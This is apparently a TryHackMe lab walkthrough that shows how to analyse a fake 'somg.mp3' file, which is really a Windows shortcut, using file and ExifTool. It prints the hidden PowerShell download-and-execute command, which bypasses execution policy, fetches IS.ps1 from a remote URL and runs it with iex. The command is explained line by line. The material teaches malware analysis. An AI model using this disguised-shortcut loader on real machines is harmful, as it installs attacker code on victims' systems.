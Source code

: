 user@tryhackme:\~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide

Now, this is more interesting!

The output tells us that instead of an MP3, the file is an "MS Windows shortcut", also known as a .lnk file. This file type is used in Windows to link to another file, folder, or application. These shortcuts can also be used to run commands! If you've ever seen the shortcuts on a Windows desktop, you already know what they are.

There are multiple ways to inspect .lnk  files to reveal the embedded commands and attributes. For this room, however, we'll use ExifTool, which is already installed on this machine.

To do this, go back to your Terminal and type:
Using Exiftool Terminal

user@tryhackme:\~$ exiftool somg.mp3

Look through the output to locate the command used as a shortcut in the somg.mp3 file. If you scroll down through the output, you should see a PowerShell command.
Using Exiftool Terminal

...
Relative Path                   : ......\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe
Working Directory               : C:\\Windows\\System32\\WindowsPowerShell\\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('[https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\\ProgramData\\s.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:%5CProgramData%5Cs.ps1)'); iex (Get-Content 'C:\\ProgramData\\s.ps1' -Raw)"
Machine ID                      : win-base-2019
user@tryhackme:\~#

What this PowerShell command does:

```
The -ep Bypass -nop flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
The DownloadFile method pulls a file (in this case, IS.ps1) from a remote server (https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1) and saves it in the C:\\ProgramData\\ directory on the target machine.
Once downloaded, the script is executed with PowerShell using the iex command, which triggers the downloaded s.ps1 file.
```

If you visit the contents of the file to be downloaded using your browser (<https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1>), you will see just how lucky we are that we are not currently using Windows.
PowerShell Script Terminal


function Print-AsciiArt {
Write-Host "  ____     _       ___  _____    ___    _   _ "
Write-Host " / *|   | |     |* *||*   *|  / __|  | | | |"Write-Host "| |  _    | |      | |   | |   | |     | |*| |"
Write-Host "| || |   | |__   | |   | |   | |__   |  _  |"
Write-Host " _*__|   |__*__| |__*|  |*|    ___|  |*| |*|"

